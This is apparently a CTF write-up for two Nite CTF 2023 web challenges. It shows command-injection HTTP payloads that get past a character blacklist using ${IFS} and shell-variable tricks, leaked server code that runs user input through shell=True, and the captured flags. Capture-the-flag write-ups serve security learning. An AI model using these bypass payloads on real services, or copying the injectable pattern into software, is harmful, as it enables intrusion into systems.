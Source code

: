 ```yaml
---
toc: true
title: "Nite CTF 2023"
description: NiteCTF
date: 2023-12-18
author: Duc Anh Nguyen
---
```



## [Web: caas_renewed](http://caas.web.nitectf.live)
There is a cowsay service running, it takes user input from the `GET URL: /cowsay/{input}`. Cleary there is a command injection vulnerability. But there are some filters and also restrictions for the input, I was able to extract the source code of the server using the following payload:

```http
GET /cowsay/a;cd${IFS}-;cat${IFS}ma* HTTP/1.1
Host: caas.web.nitectf.live
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 2
```

<details>
<summary><b>SourceLeak.py</b></summary>

```python
from fastapi import FastAPI
from fastapi.staticfiles import StaticFiles
from fastapi.responses import PlainTextResponse
import subprocess
import time
import os
from uvicorn.workers import UvicornWorker


# remove server header
# gunicorn  -k main.ServerlessUvicornWorker main:app -b "0.0.0.0:1337" --access-logfile '-'
class ServerlessUvicornWorker(UvicornWorker):
    def __init__(self, *args, **kwargs):
        self.CONFIG_KWARGS["server_header"] = False
        super().__init__(*args, **kwargs)


TIMEOUT = 5
SLEEP_TIME = 0.1
DEBUG = False

BLACKLIST = [x[:-1] for x in open("./blacklist.txt").readlines()][:-1]

BLACKLIST.append("/")
BLACKLIST.append("\\")
BLACKLIST.append(" ")
BLACKLIST.append("\t")
BLACKLIST.append("\n")
BLACKLIST.append("tc")

ALLOW = [
    "{",
    "}",
    "[",
    "pwd",
    "-",
    "if",
    "tac",
    "ac",
    "cd",
    "tree",
    "ls",
    "echo",
    "tee",
    "touch",
    "mkdir",
    "dir",
    "mv",
    "chmod",
    "ping",
]

for a in ALLOW:
    try:
        BLACKLIST.remove(a)
    except ValueError:
        pass


def isClean(input):
    input = input.lower().strip()
    if any(x in input for x in BLACKLIST):
        if DEBUG:
            for i in BLACKLIST:
                if i in input:
                    print("Banned reason:", i)
                    break
        return False
    return True


def timeout(proc):
    count = 0
    while proc.poll() == None:
        time.sleep(SLEEP_TIME)
        count += SLEEP_TIME
        if count > TIMEOUT:
            proc.terminate()


app = FastAPI()
api = FastAPI()

pwd = os.path.dirname(os.path.realpath(__file__))

app.mount("/cowsay", api)
#app.mount("/", StaticFiles(directory="{}/static".format(pwd), html=True))

#os.chdir("/usr/games")


@api.get("/{user_input}")
def response(user_input):
    if not isClean(user_input):
        cmd = "cowsay {}".format("'Whoops! I cannot say that'")

        p = subprocess.Popen(
            cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
        )
        output = p.communicate()[0]

        return PlainTextResponse(output)
    else:
        cmd = "cowsay {}".format(user_input)

        p = subprocess.Popen(
            cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
        )

        timeout(p)

        if DEBUG:
            try:
                output = "\n".join(x.decode() for x in p.communicate())
            except (UnicodeDecodeError, AttributeError):
                try:
                    output = p.communicate()[1].decode()
                except:
                    output = p.communicate()[1]

        else:
            output = p.communicate()[0].decode()

        if DEBUG:
            print("OUTPUT:", output)

        if len(output):
            return PlainTextResponse(output)

        else:
            if "denied" in output:
                cmd = "cowsay {}{}".format('"permission denied"', user_input)
            else:
                cmd = "cowsay {}{}".format(
                    '"Oops! Something went wrong. You said "', user_input
                )

            p = subprocess.Popen(
                cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
            )

            output = p.communicate()[0]

        return PlainTextResponse(output)
```
</details>

Knowing the logic behind blacklisting characters now, it is easy to spin up a payload to print out the flag

- `pwd|c'u't${IFS}-c1`: Get the first character of the command pwd, which is pwd
- ban=\`echo${IFS}t\`: Set the variable ban to t (which is one of the blacklisted characters)
- `cat${IFS}${slash}e${ban}c${slash}cowsay${slash}f*`: Print the flag.

```http
GET /cowsay/a;slash=`pwd|c'u't${IFS}-c1`;ban=`echo${IFS}t`;cat${IFS}${slash}e${ban}c${slash}cowsay${slash}f* HTTP/1.1
Host: caas.web.nitectf.live
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 2
```

**Flag:**

```http
HTTP/1.1 200 OK
date: Mon, 18 Dec 2023 10:04:21 GMT
content-length: 180
content-type: text/plain; charset=utf-8
Connection: close

 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
nite{9wd_t0_th3_r35cu3_dp54kf_ud9j3od3w}
```

# [Web: Eraas](!http://eraas.web.nitectf.live/)
Command injection in user input:

```http
POST / HTTP/1.1
Host: eraas.web.nitectf.live
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eraas.web.nitectf.live
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://eraas.web.nitectf.live/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

user_input=1745291415|cat flag.txt
```

Flag:
`nite{b3tt3r_n0_c5p_th7n_b7d_c5p_r16ht_fh8w4d}`

